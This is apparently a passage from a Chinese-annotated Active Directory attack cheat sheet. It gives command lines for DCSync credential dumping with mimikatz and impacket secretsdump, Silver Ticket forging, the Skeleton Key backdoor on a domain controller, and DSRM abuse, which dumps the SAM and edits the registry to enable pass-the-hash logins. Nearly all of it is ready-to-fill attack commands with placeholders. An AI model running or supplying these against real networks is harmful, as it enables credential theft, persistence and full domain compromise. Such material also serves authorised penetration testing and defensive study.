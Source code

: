 ```
#DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'#DCsync using secretsdump.py from impacket with NTLM authentication
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm#DCsync using secretsdump.py from impacket with Kerberos Authentication
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
```

提示:
/ptt - >在当前运行的会话中注入票证
/ticket - >将票证保存在系统中以备后用

# 银票攻击

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```

[SPN 列表](https://adsecurity.org/?page_id=183)

# 万能钥匙攻击

```
#Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>#Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

# DSRM 滥用

*WUT 是 DIS？:每个 DC 都有一个本地管理员帐户，该帐户具有 DSRM 密码，即 SafeBackupPassword。我们可以得到它，然后 pth 它的 NTLM 散列来让本地管理员访问 DC！*

```
#Dump DSRM password (needs DA privs):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>#This is a local account, so we can PTH and authenticate!
#BUT we need to alter the behaviour of the DSRM account before pth:
#Connect on DC:
Enter-PSSession -ComputerName <DC's Name>#Alter the Logon behaviour on registry:
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose#If the property already exists:
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

然后只需 PTH 获得 DC 的本地管理权限！
